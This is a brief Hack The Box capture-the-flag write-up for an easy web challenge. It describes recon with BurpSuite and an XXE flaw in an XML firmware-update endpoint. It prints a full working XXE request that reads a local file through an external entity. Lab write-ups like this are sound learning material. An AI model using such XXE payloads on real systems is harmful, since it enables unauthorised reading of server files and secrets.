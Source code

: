 # Jailbreak Write-Up 🕒
> *Hack The Box*  
> *Date Solved: 2025-05-06*  
> *Difficulty: Easy*
> *Category: Web*
> *Tools Used: Browser, Kali Linux, BurpSuite*

## 🔍 Initial Recon
I accessed the challenge at `http://94.237.51.163:49486/` and was greeted by a simple page displaying the current time. 
Clicking around the website I found a page with an update section under /rom. I also noticed this page when I used BurpSuite's site map. One of the first things I noticed about the page was that it used XML, to process the update.
---

## 🧠 Step 2: Vulnerability Discovery

I pressed update on the website to try it out, and sent that POST request to repeater on BurpSuite. After looking at the file in repeater, it was easy to tell that there was an vulnerability around XML. I learned there was an XXE vulnerability here, so I tried common payloads I found after researching online. I ended up using the following payload.
```
POST /api/update HTTP/1.1
Host: 83.136.248.49:56894
Content-Type: application/xml
Content-Length: <adjusted length>

<?xml version='1.0'?>
<!DOCTYPE FirmwareUpdateConfig [
  <!ELEMENT FirmwareUpdateConfig ANY>
  <!ENTITY xxe SYSTEM 'file:///flag.txt'>
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>
```
And was given the flag in the response section.

🧠 What I Learned
  - More experience with BurpSuite
  - XXE Vulnerabilities


